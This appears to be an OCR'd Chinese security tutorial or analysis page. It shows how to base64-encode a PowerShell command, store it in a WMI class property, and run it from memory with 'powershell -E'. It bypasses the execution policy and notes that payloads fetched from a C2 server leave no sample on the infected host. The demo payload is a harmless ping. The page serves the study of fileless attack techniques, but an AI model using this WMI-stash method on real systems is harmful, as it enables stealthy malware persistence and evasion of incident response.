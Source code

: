不能使用网页版base64编码工具进行编码，因为编码方式不同会导致powershell无法识别，上述命令通过网页版base64工具编码后再通过powershell识别，其结果如下所示：

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

因此可通过以下powershell工具将其base64编码。将命令复制到【$string】中，当存在【$】【"】符号时需要使用【`】进行转义，多行内容可直接回车。

ps_string_base64.ps1

$string = "start powershell `"ping 114.114.114.114 -t`""

$bytes = [System.Text.Encoding]::Unicode.GetBytes($string)

$encoded = [Convert]::ToBase64String($bytes)

echo $encoded

当前目录下打开cmd执行powershell -executionpolicy bypass -file ps_string_base64.ps1即可获得base64后的字符串。

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

打开poershell输入以下命令（可以将以下内容base64编码化，从cc主控端拉取执行，执行完毕即从内存中释放，这可能也是在被入侵主机中没有发现此类样本的原因），以下命令通过powershell调用.net的方法将base64字符串写入wmiclass同时执行。



\#要连接的wmi命名空间及类对象

$SaveClass 

= [System.Management.ManagementClass]

('root\default:StdRegProv')



\#添加对象属性(名称，类型，非数组)

$SaveClass.Properties.Add('ping',[System.Management.CimType]::String,$False)



\#修改ping属性的值为base64字符串

$SaveClass.SetPropertyValue('ping','cwB0AGEAcgB0ACAAcABvAHcAZQByAHMAaABlAGwAbAAgACIAcABpAG4AZwAgADEAMQA0AC4AMQAxADQALgAxADEANAAuADEAMQA0ACAALQB0ACIA')



\#保存

$SaveClass.Put()



\#查询ping属性的值

$SaveClass.GetPropertyValue('ping')



\#取载荷执行后退出

set ping 

([WmiClass]'root\default:StdRegProv').Properties['ping'].Value;powershell -E $ping;exit

.net帮助文档参考链接如下所示：


[System.Convert]: :FromBase64String($string);
[System.Text.Encoding]: :Unicode.GetString($bytes);
